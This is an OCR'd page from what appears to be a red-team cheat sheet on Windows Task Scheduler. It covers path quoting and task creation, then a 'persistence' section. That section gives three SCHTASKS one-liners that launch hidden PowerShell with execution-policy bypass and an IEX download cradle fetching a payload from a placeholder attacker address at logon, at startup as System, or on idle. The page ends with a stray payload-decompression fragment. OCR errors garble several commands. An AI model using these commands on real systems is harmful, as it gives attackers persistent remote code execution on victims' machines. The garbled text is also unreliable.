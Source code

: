 ```text
Scheduled tasks binary paths CANNOT contain spaces because everything
after the first space in the path is considered to be a command-line
argument. Enclose the /TR path parameter between backslash (\) AND
quotation marks ("):
... /TR "\"C:\Program Files\file.exe\" -x arg1"
```

### Task scheduler \(ST=start time, SD=start date, ED=end date\) \*Must be admin

```text
SCHTASKS /CREATE /TN Task Name /SC HOURLY /ST HH:MM /F /RL HIGHEST /SD
MM/DD/YYYY /ED MM/DD/YYYY /tr "C:\my.exe" /RU DOMAIN/user /RP
password
```

### Task scheduler persistence \[10\]

```text
For 64 bit use:
"C:\Windows\syswow64\WindowsPowerShell\vl.O\powershell.exe"
# (x86) on User Login
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nap -c 'IEX ((new-object
net.webclient) .downloadstring( ''http:// ip : port I payload'''))'" /SC
onlogon /RU System
# (x86) on System Start
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nap -c 'IEX ((new-object
net.webclient) .downloadstring("http:// ip : port I payload"))'" /SC
onstart /RU System
# (x86) on User Idle (30 Minutes)
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bjpass -nop -c 'IEX ((new-object
net.webclient) .downloadstring("http:// ip : port I payload"))'" /SC
onidle /i 30
```



[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"